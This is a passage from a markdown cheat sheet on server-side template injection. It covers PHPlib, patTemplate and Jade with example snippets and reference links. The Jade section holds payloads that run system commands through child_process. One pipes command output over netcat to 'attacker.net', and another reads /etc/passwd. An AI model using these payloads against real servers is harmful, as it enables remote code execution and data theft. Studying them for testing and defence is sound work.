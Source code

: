 ```

//display the authors
foreach ($authors as $name => $email) {
    $t->setVar('AUTHOR_NAME', $name);
    $t->setVar('AUTHOR_EMAIL', $email);
    $t->parse('authorline_ref', 'authorline', true);
}

//finish and echo
echo $t->finish($t->parse('OUT', 'authors'));
?>
```
```
**More information**

- [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#phplib-and-html_template_phplib|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#phplib-and-html_template_phplib]]

### Other PHP

![[../../images/image (6).png|]]

*[[https://miro.medium.com/v2/resize:fit:1100/format:webp/1*u4h8gWhE8gD5zOtiDQalqw.jpeg|https://miro.medium.com/v2/resize:fit:1100/format:webp/1\*u4h8gWhE8gD5zOtiDQalqw.jpeg]]*


- More info in [[https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756|https://medium.com/@0xAwali/template-engines-injection-101-4f2fe59e5756]]

### Jade (NodeJS)

```javascript
- var x = root.process
- x = x.mainModule.require
- x = x('child_process')
= x.exec('id | nc attacker.net 80')
```
```
```javascript
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
```
**More information**

- In Jade section of [[https://portswigger.net/research/server-side-template-injection|https://portswigger.net/research/server-side-template-injection]]
- [[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen|https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen]]

### patTemplate (PHP)

> [[https://github.com/wernerwa/pat-template|patTemplate]] non-compiling PHP templating engine, that uses XML tags to divide a document into different parts

```xml
<patTemplate:tmpl name="page">
  This is the main page.
  <patTemplate:tmpl name="foo">
    It contains another template.
  </patTemplate:tmpl>
  <patTemplate:tmpl name="hello">
    Hello {NAME}.  

```